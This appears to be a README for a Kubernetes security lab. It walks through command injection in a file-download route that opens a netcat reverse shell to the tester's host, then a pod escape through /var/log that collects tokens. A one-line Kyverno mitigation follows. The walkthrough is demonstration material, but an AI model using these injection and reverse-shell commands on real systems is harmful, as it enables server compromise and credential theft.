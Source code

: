 # Reverse Shell

1 - On you host run the following command in a terminal
```bash
nc -lvp 4242
```

2 - Pass a reverse shell command after a semicolon in the `GET /file/:filename` route, to execute these commands on the server:


```bash
nc -e /bin/sh 172.17.0.1 4242
# 172.17.0.1 being my IP address with k3d
```

3 - And tadaaa 🎉! You have a Reverse Shell on you host!


# Pod Escape through /var/log

> [!NOTE]
> Credits goes to [danielsagi](https://github.com/danielsagi/kube-pod-escape) for the exploit and the script

1 - On you host run the following command in a terminal
```bash
cat << 'EOF' > /get_host_files.py
<paste the contents of the python script>
EOF

python3 /get_host_files.py
```

And now every tokens are in the `host` directory !!!

# Mitigation 

```
kubectl apply -f manifests/kyverno
```